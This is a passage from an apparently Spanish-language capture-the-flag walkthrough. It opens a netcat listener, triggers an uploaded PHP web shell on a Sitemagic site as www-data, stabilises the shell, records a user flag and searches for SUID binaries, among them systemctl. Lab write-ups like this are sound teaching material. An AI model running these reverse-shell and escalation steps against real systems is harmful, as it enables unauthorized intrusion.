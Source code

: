 ```shell
nc -lvnp <PORT>
```

Una vez estando a la escucha le daremos a la `shell.php` en la `URL`...

```
URL = http://<IP>/sitemagic/files/editor/shell.php
```

Y con esto ya tendriamos una shell con el usuario `www-data`, por lo que sanitizaremos la shell...

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

Si nos vamos a la `/home` del usuario `heisenberg` veremos la flag del usuario...

> user.txt (flag1)

```
6346c6d19751f1a3195f1e4b4b609544
```

Si hacemos lo siguiente...

```shell
find / -type f -perm -4000 -ls 2>/dev/null
```

Info:

```
8195    112 -rwsr-xr-x   1 root     root       113528 Sep  4  2020 /usr/lib/snapd/snap-confine
     1254     16 -rwsr-xr-x   1 root     root        14328 Mar 27  2019 /usr/lib/policykit-1/polkit-agent-helper-1
     7362    100 -rwsr-xr-x   1 root     root       100760 Nov 23  2018 /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
     1068     12 -rwsr-xr-x   1 root     root        10232 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
     1250    428 -rwsr-xr-x   1 root     root       436552 Mar  4  2019 /usr/lib/openssh/ssh-keysign
     1061     44 -rwsr-xr--   1 root     messagebus    42992 Jun 11  2020 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
      442     52 -rwsr-sr-x   1 daemon   daemon        51464 Feb 20  2018 /usr/bin/at
      840    148 -rwsr-xr-x   1 root     root         149080 Jan 31  2020 /usr/bin/sudo
      698     40 -rwsr-xr-x   1 root     root          40344 Mar 22  2019 /usr/bin/newgrp
      699     40 -rwsr-xr-x   1 root     root          37136 Mar 22  2019 /usr/bin/newuidmap
      493     76 -rwsr-xr-x   1 root     root          76496 Mar 22  2019 /usr/bin/chfn
      735     24 -rwsr-xr-x   1 root     root          22520 Mar 27  2019 /usr/bin/pkexec
      588     76 -rwsr-xr-x   1 root     root          75824 Mar 22  2019 /usr/bin/gpasswd
      495     44 -rwsr-xr-x   1 root     root          44528 Mar 22  2019 /usr/bin/chsh
      697     40 -rwsr-xr-x   1 root     root          37136 Mar 22  2019 /usr/bin/newgidmap
      715     60 -rwsr-xr-x   1 root     root          59640 Mar 22  2019 /usr/bin/passwd
      876     20 -rwsr-xr-x   1 root     root          18448 Jun 28  2019 /usr/bin/traceroute6.iputils
   524425    180 -rwsr-sr-x   1 root     root         182352 Jul  8  2020 /bin/systemctl
   524577     28 -rwsr-xr-x   1 root     root          26696 Sep 16  2020 /bin/umount
```